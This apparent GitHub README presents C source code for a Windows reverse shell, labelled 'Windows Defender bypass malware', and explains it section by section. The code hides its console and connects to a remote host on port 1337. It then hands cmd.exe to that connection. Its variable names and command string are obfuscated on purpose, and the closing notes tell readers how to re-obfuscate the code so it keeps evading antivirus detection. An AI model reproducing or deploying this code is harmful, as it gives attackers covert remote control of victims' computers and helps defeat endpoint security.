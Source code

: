 WINDOWS DEFENDER Bypass malware
This program demonstrates how to establish a remote connection to a server using the WinSock2 library and execute a command prompt (cmd.exe) on a Windows system. The code dynamically loads functions from ws2_32.dll and uses these functions to perform network operations.

Prerequisites
A Windows environment.
Visual Studio or any other C/C++ compiler for Windows.
ws2_32.dll should be present on the system (it's a standard DLL provided by Windows).
Detailed Description
Code Breakdown
Include Headers and Library
```
#include <stdio.h>
#include <windows.h>
#include <WinSock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>

#pragma comment(lib, "user32.lib")
```
These headers provide the necessary functions and definitions for Windows API, network operations, and standard I/O operations.

Typedef Function Pointers
```
typedef int (WSAAPI *lpfnWSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);
typedef int (WSAAPI *lpfnWSACleanup)(void);
typedef SOCKET (WSAAPI *lpfnWSASocket)(int af, int type, int protocol, LPWSAPROTOCOL_INFO lpProtocolInfo, GROUP g, DWORD dwFlags);
typedef int (WSAAPI *lpfnWSAConnect)(SOCKET s, const struct sockaddr *name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS);
typedef int (WSAAPI *lpfnRecv)(SOCKET s, char *buf, int len, int flags);
```

These typedefs declare pointers to the functions we will dynamically load from ws2_32.dll.

Main Function
```
int main(int argc, char* argv[]) {
    FreeConsole();  // Hide the console window

    HMODULE hwww = LoadLibrary("ws2_32.dll");  // Load ws2_32.dll dynamically
    if (hwww == NULL) {
        printf("Could not load ws2_32.dll\n");
        return 1;
    }
```
Get Function Addresses
```
lpfnWSAStartup uywueftuwefwuuw = (lpfnWSAStartup)GetProcAddress(hwww, "WSAStartup");
    lpfnWSACleanup ploskdmcnc = (lpfnWSACleanup)GetProcAddress(hwww, "WSACleanup");
    lpfnWSASocket yncsj = (lpfnWSASocket)GetProcAddress(hwww, "WSASocketW");
    lpfnWSAConnect llllosksuua = (lpfnWSAConnect)GetProcAddress(hwww, "WSAConnect");
    lpfnRecv ujvjcmvcmvcmmcjyhn = (lpfnRecv)GetProcAddress(hwww, "recv");

    if (!uywueftuwefwuuw || !ploskdmcnc || !yncsj || !llllosksuua || !ujvjcmvcmvcmmcjyhn) {
        printf("Could not get function addresses\n");
        FreeLibrary(hwww);
        return 1;
```
Initialize WinSock and Create a Socket
 WSADATA ietuwecwtuecwucuwaa;
    uywueftuwefwuuw(MAKEWORD(2, 2), &ietuwecwtuecwucuwaa);  // Initialize WinSock
    SOCKET qqweretrwqcqqmmn = yncsj(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);  // Create a TCP socket

Configure Server Address
```
struct sockaddr_in Inksjshsfww;
    Inksjshsfww.sin_port = htons(1337);  // Port number
    Inksjshsfww.sin_family = AF_INET;
    Inksjshsfww.sin_addr.s_addr = inet_addr("192.168.1.1");  // Server IP address
```
Connect to Server
```
int lthnbvmdl = llllosksuua(qqweretrwqcqqmmn, (SOCKADDR*)&Inksjshsfww, sizeof(Inksjshsfww), NULL, NULL, NULL, NULL);
    if (lthnbvmdl == SOCKET_ERROR) {
        printf("Connection Error to the server: %lu\n", WSAGetLastError());
        ploskdmcnc();
        FreeLibrary(hwww);
        return 1;
    }
```
Receive Data and Setup STARTUPINFO

```
 char awqszxa[4096];
    ujvjcmvcmvcmmcjyhn(qqweretrwqcqqmmn, awqszxa, sizeof(awqszxa), 0);  // Receive data

    STARTUPINFO siosusg;
    for (int i = 0; i < sizeof(siosusg); i++) {
        ((char*)&siosusg)[i] ^= ((char*)&siosusg)[i];
    } 
    siosusg.cb = sizeof(siosusg);
    siosusg.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    siosusg.hStdInput = siosusg.hStdOutput = siosusg.hStdError = (HANDLE)qqweretrwqcqqmmn;
```
Construct Command String and Create Process

```
 char b[3] = "cm";
    char c[4] = "d.e";
    char d[2] = "x";
    char e[2] = "e";
    char sdj[10];
    sdj[0] = '\0'; 

    strcat(sdj, b); 
    strcat(sdj, c); 
    strcat(sdj, d);
    strcat(sdj, e);

    PROCESS_INFORMATION iloksj;
    BOOL sbdsksck = CreateProcess(NULL, sdj, NULL, NULL, TRUE, CREATE_NO_WINDOW | IDLE_PRIORITY_CLASS, NULL, NULL, &siosusg, &iloksj);
    if (!sbdsksck){
        printf("Cannot create a thread\n");
        printf("Error is:%lu\n", GetLastError());
    }
    WaitForSingleObject(iloksj.hProcess, INFINITE);

    CloseHandle(iloksj.hThread);
    CloseHandle(iloksj.hProcess);
```
Cleanup and Exit
 memset(awqszxa, 0, sizeof(awqszxa));
   ploskdmcnc();
   FreeLibrary(hwww);
   return 0;
}

Obfuscation Note
The variable names and certain parts of the code are obfuscated to evade static analysis detection by Windows Defender. If you want to bypass detection again, please change the file signature and obfuscate the code in different ways, as Windows Defender can capture static patterns.

Summary
This program demonstrates how to dynamically load network-related functions from ws2_32.dll, create a TCP socket, connect to a remote server, and execute a command prompt using the Windows API. It is an example of low-level network programming and process management in C on a Windows platform. Use this knowledge responsibly and ethically.

        
